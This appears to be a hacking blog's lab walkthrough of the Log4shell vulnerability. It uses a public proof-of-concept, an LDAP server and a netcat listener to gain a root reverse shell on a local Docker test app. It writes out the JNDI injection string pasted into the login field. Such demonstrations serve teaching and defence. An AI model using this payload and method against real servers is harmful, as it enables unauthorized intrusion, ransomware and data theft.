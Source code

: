 ```yaml
---
title: "Exploiting Log4shell"
categories:
  - Hacking
---
```


This article is intended to show the Log4shell exploit in action. If you're unfamiliar with what Log4shell is, [please read this article](https://www.freshprinceofhacking.com/general/Log4Shell-Vulnerability/). Essentially, we're going to have a test web application set up, along with the actual exploit that has been made ready to show as proof of concept. Let's get hacking!

### Scenario

We've just discovered a web application that is vulnerable to the Log4shell exploit. We want to be able to get a reverse shell on the webserver in order to control the server remotely. Once we do that, we can then continue to perform whatever hacking is necessary to achieve our end goal (data exfiltration, deploy crypto mining malware or ransomware, etc.). 

### Concept

Log4shell is a vulnerability recently discovered in the log4j java library. Log4j is a logging framework that records various events in a given application that can be read by a system administrator. These events can include user input, error messages and system routines. Log4j also utilizes a feature called lookups, which can be used to retrieve data from remote locations. If done correctly, a hacker can craft a special string that log4j will read, interpolate and execute code from a remote server that the attacker owns. The Java Naming and Directory Interface (JNDI) is the specific lookup that we will target to exploit this vulnerability.

### Tools Used

* Operating System: Linux (Pop-OS)
* Netcat: utility to read and write data across networks
* Python3: programming language used to compile exploit
* Docker: containerizing software that holds the vulnerable app
* Proof of Concept Github page: [Log4shell POC](https://github.com/kozmer/log4j-shell-poc)

If you're following along while reading, I'm going to assume you have everything downloaded and installed correctly after this point. 

### The Attack

Here is the web application we will be attacking:

![WebApp1]({{ site.url }}{{ site.baseurl }}/assets/images/webapp1.png)

It is a simple page with login credential fields. Remember, we want to be able to pass a string to log4j to query. User input is a great way to do that. Therefore the login credential fields will be our attack vector. 

There are only 2 things that we need to run: One is going to be the github poc script, which will create an LDAP server for us and set up the "malicious code" that log4j will execute on it. The other running piece is going to be a netcat listener that will receive the connection and start a reverse shell once the malicious code has been executed. Let's run the poc script from the github page:

![Server]({{ site.url }}{{ site.baseurl }}/assets/images/server.png)

We can see that an LDAP server has been created for us, and they even gave us a string that we can use to input into the login fields. Let's also start up our netcat listener in a different terminal:

![Netcat]({{ site.url }}{{ site.baseurl }}/assets/images/netcat.png)

The netcat listener is listening over port 9001, which is the listening port we gave to the exploit in the command when we set it up in the preivous section. This means that when we paste the string into the login field, the listener we set up should recognize that port 9001 is going to be used to complete the connection and spawn a reverse shell. Now everything should be ready to perform the exploit. The only thing we need to do is take the string ${jndi:ldap://localhost:1389/a} and paste it into the login field. Here is what that looks like:

![WebApp2]({{ site.url }}{{ site.baseurl }}/assets/images/webapp2.png)

All we've done is add the string to the username field and random text to the password field. Once we hit login, the exploit should work. Now let's turn our attention back to the poc terminal where we initiated the exploit:

![Server2]({{ site.url }}{{ site.baseurl }}/assets/images/server2.png)

Now we see that there was an LDAP reference which took the string we inputted into the field that log4j interpolated and then ultimately ran the code that's in "Exploit.class" hosted on our LDAP server. This is good! It means it worked as far as we know. However, let's check our netcast listener to see if we see any results:

![Netcat2]({{ site.url }}{{ site.baseurl }}/assets/images/netcat2.png)

Success!! We see a "Connection received on 127.0.0.1 54386". Ultimately, this means our reverse shell worked, and we now can execute commands on the webserver remotely. I've already chosen 3 simple but powerful commands that give us some information about the server that hosts the web application. 

The first command is "ls": This gives us information about files and folders in the current directory we are in. Ls also has other options which can show read/write/execute permissions on those files/folders.

The second command is "pwd": This command tells us exactly where we are on the machine. It gives information about the current directory and path of that directory. In this example I am in the /usr/local/tomcat directory.

The last command is "whoami": This command tells you the username of the current user. It may not seem like much, but as you can see it spit out "root" when we typed it in. This means I am the root user on this server, which basically allows me full permission to read/write/execute files and invoke privileged commands that normal users wouldn't have. You can think of it like an administrator credential, but for the terminal. 

The hack is complete!

### Conclusion

We can see that this exploit did not require a ridiculous amount of technical expertise to complete. Although the LDAP server and malicious code were created for us, setting these up manually is not hard to do. You can even push the exploit over other protocols such as DNS. So there are a lot of possibilities and creative ways that you can go about exploiting this vulnerability. You can bet that attackers will be trying to execute this in a stealthy manner that wouldn't be normally detected by security tools. 

As stated in my article on Log4shell, the problem is that there are millions upon millions of vulnerable devices, which more than likely aren't all patched. Hackers are constantly combing the internet for webservers and other devices that may be vulnerable to the exploit. It only takes one device in a network to be vulnerable that could be the downfall to the entire security posture of the organization. Only time will tell how bad the fall out from this vulnerability will be. There is already [evidence of this exploit being used in the wild](https://www.advintel.io/post/ransomware-advisory-log4shell-exploitation-for-initial-access-lateral-movement) to leverage ransomware, cryptomining and botnet activity across enterprise networks. In the meantime, the best thing we can do individually is to continue to adhere to best security practices; (including but not limited to) updating software when made available, use 2FA with strong passwords and be aware of phishing or suspicious emails.

Thank you for reading! 